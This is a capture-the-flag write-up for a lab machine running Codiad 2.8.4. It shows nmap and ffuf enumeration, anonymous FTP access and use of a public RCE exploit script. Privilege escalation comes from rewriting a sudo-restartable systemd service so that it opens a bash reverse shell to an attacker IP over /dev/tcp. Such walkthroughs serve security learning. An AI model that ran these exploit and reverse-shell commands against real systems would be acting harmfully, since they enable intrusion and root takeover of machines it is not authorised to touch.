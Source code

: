 # IDE

## Enmeration

### nmap

```
Discovered open port 21/tcp on 10.10.6.68
Discovered open port 80/tcp on 10.10.6.68
Discovered open port 22/tcp on 10.10.6.68
Discovered open port 62337/tcp on 10.10.6.68

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC94RvPaQ09Xx+jMj32opOMbghuvx4OeBVLc+/4Hascmrtsa+SMtQGSY7b+eyW8Zymxi94rGBIN2ydPxy3XXGtkaCdQluOEw5CqSdb/qyeH+L/1PwIhLrr+jzUoUzmQil+oUOpVMOkcW7a00BMSxMCij0HdhlVDNkWvPdGxKBviBDEKZAH0hJEfexz3Tm65cmBpMe7WCPiJGTvoU9weXUnO3+41Ig8qF7kNNfbHjTgS0+XTnDXk03nZwIIwdvP8dZ8lZHdooM8J9u0Zecu4OvPiC4XBzPYNs+6ntLziKlRMgQls0e3yMOaAuKfGYHJKwu4AcluJ/+g90Hr0UqmYLHEV
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBzKTu7YDGKubQ4ADeCztKu0LL5RtBXnjgjE07e3Go/GbZB2vAP2J9OEQH/PwlssyImSnS3myib+gPdQx54lqZU=
|   256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ+oGPm8ZVYNUtX4r3Fpmcj9T9F2SjcRg4ansmeGR3cP
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE REASON  VERSION
62337/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: B4A327D2242C42CF2EE89C623279665F
|_http-title: Codiad 2.8.4
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### ffuf

```
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
components              [Status: 301, Size: 322, Words: 20, Lines: 10]
data                    [Status: 301, Size: 316, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.php               [Status: 200, Size: 5239, Words: 1739, Lines: 87]
js                      [Status: 301, Size: 314, Words: 20, Lines: 10]
languages               [Status: 301, Size: 321, Words: 20, Lines: 10]
lib                     [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 319, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
```

The room said enumeration is important so we took that personally.

full nmap scan or you miss the main thing...the real website is on port 62337

But first lets grab whatever is in ftp folder

At first I thought ftp folder was empty...the subfolder was named `...`

cd into it and find a file named `-`

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

nmap says the actual website use codiad 2.8.4

As we dont know what that is we google but found its a web ide

And there is an RCE vulnerability with exploitdb script

random passwords trials got us in the web ide (I was about to bruteforce with hydra lol)

`john : password`

As we can login we see the code john was workig on but nothing useful in it

let's use the exploit db python script to get inside

`python exploit.py http://10.10.172.231:62337/ john password 10.8.226.203 2311 linux`

And we are in

first we get comfortable

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

```
www-data@ide:/home$ cd drac
cd drac
www-data@ide:/home/drac$ ls
ls
user.txt
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

I am not even surprised

```
ls -al
total 52
drwxr-xr-x 6 drac drac 4096 Aug 4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17 14:01 ..
-rw------- 1 drac drac 49 Jun 18 06:02 .Xauthority
-rw-r--r-- 1 drac drac 36 Jul 11 12:11 .bash_history
-rw-r--r-- 1 drac drac 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11 11:53 .bashrc
drwx------ 4 drac drac 4096 Jun 18 06:03 .cache
drwxr-x--- 3 drac drac 4096 Jun 18 06:47 .config
drwx------ 4 drac drac 4096 Jun 18 06:48 .gnupg
drwx------ 3 drac drac 4096 Jun 18 05:49 .local
-rw-r--r-- 1 drac drac 807 Apr 4 2018 .profile
-rw-r--r-- 1 drac drac 0 Jun 17 14:03 .sudo_as_admin_successful
-rw------- 1 drac drac 557 Jun 18 05:49 .xsession-errors
-r-------- 1 drac drac 33 Jun 18 06:32 user.txt
```

ok drac only can read the flag but anyone can read his bash history...lol

that thing is supposed to go to void (/dev/null)

```
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'

www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL
```

`drac@ide:~$ cat user.txt`

And we got User Flag

Now privileges

## privilege escalation

```
sudo -l

Matching Defaults entries for drac on ide:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
(ALL : ALL) /usr/sbin/service vsftpd restart
```

The ftp service? hmm? I dont know

```
locate vsftpd.service
/etc/systemd/system/multi-user.target.wants/vsftpd.service

cd /etc/systemd/system/multi-user.target.wants

cat vsftpd.service

[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

Alright let's change the `ExecStart` to a reverse shell

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.226.203/4444 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

We echo all that in `vsftpd.service` and listen with a new netcat on said port

Now we restart the service..reload daemon first

```
systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: Th3dRaCULa1sR3aL

==== AUTHENTICATION COMPLETE ===
```

```
drac@ide:/etc/systemd/system/multi-user.target.wants$ sudo /usr/sbin/service vsftpd restart
```

Aaand...NOTHING

I don't know why but I had to do the restart twice

```
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)

cat root.txt
```

Great room! Get some more!
